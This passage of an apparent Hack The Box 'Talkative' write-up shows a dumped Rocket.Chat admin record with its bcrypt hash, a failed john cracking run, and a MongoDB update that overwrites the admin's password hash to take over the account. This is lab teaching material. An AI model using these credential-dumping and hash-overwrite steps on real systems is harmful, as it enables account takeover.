 { "_id" : "ZLMid6a4h5YEosPQi", "createdAt" : ISODate("2021-08-10T19:49:48.673Z"), "services" : { "password" : { "bcrypt" : "$2b$10$jzSWpBq.eJ/yn/Pdq6ilB.UO/kXHB1O2A.b2yooGebUbh69NIUu5y" }, "email" : { "verificationTokens" : [ { "token" : "dgATW2cAcF3adLfJA86ppQXrn1vt6omBarI8VrGMI6w", "address" : "saul@talkative.htb", "when" : ISODate("2021-08-10T19:49:48.738Z") } ] }, "resume" : { "loginTokens" : [ ] } }, "emails" : [ { "address" : "saul@talkative.htb", "verified" : false } ], "type" : "user", "status" : "offline", "active" : true, "_updatedAt" : ISODate("2022-06-24T11:39:06.274Z"), "roles" : [ "admin" ], "name" : "Saul Goodman", "lastLogin" : ISODate("2022-03-15T17:06:56.543Z"), "statusConnection" : "offline", "username" : "admin", "utcOffset" : 0 }
rs0:PRIMARY> 
```
We got two user entrys but for now only one is interesting to us, because it has the admin role assigned and we can read his ```bcrypt``` password.

| Username  | Email | name  |  bcrypt password |
|---|---|---|---|
| Admin  |  saul@talkative.htb | Saul Goodman  | $2b$10$jzSWpBq.eJ/yn/Pdq6ilB.UO/kXHB1O2A.b2yooGebUbh69NIUu5y  |

Unfortunately I was not able to crack the hash with ```john```  and the ```rockyou``` wordlist. 

```
┌──(kali㉿kali)-[~/htb/talkative]
└─$ cat hash                                                                                                                                            1 ⨯
$2b$10$jzSWpBq.eJ/yn/Pdq6ilB.UO/kXHB1O2A.b2yooGebUbh69NIUu5y
                                                      
┌──(kali㉿kali)-[~/htb/talkative]
└─$ john hash --format=bcrypt -w /usr/share/wordlists/rockyou.txt                                                                                       1 ⨯
Warning: invalid UTF-8 seen reading /usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 8 OpenMP threads
Proceeding with wordlist:/usr/share/john/password.lst
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:19 DONE (2022-06-24 22:01) 0g/s 177.5p/s 177.5c/s 177.5C/s targas..sss
Session completed. 
```

We got read-write privileges on the database, so it could be possible to just ```switch out``` the ```bcrypt``` hash.

I've cloned the repo, build the executable with ```make``` and created a new bcrypt hash:

```
┌──(kali㉿kali)-[~/htb/talkative/bcrypt-cli/out]
└─$ echo -n yeeb123 | ./bcrypt
$2a$10$BxYiPLLP1Smq6FWeLgJo.egyNp3Cy4NYcD9Ao0QqyHvCqQMR0lucm
```

After some trial and error (and a machine reset) I managed to get the mongodb query running and was able to switch out the bcrypt hash of admin.

```
rs0:PRIMARY> db.getCollection('users').update({username:"admin"}, { $set: {"services" : { "password" : { "bcrypt" : "$2a$10$BxYiPLLP1Smq6FWeLgJo.egyNp3Cy4NYcD9Ao0QqyHvCqQMR0lucm" } } } })
WriteResult({ "nMatched" : 1, "nUpserted" : 0, "nModified" : 1 })
```

Unfortunelty I was not able to login, probably I got the ```iteration counter``` wrong.
Well after some googleing I've found a way simpler approach: Setting a ```use-once login token``` for the admin account by following this offical guide:
https://docs.rocket.chat/guides/administration/advanced-admin-settings/restoring-an-admin

```